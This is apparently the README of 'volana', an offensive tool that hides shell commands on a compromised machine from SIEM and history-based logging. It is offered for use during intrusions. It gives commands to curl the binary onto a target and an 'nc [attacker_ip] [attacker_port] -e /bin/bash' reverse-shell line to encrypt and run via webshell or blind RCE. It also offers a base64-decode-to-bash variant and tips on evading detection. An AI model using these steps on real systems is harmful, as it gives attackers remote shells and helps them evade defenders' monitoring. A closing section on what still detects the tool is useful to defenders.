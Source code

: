 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/vodka/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM detection </h4>
<p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana execute for you).</p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## ATTACKER MACHINE

## Build volana with encryption key
make build.volana-with-enc

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encrypt "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decrypt [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use volana normally)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launch command line will be catched


* Detection systems that are based on history command output
* Detection systems that are based on historic files
  * `.bashrc`,`zshrc`, `bash_history` etc ..

### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
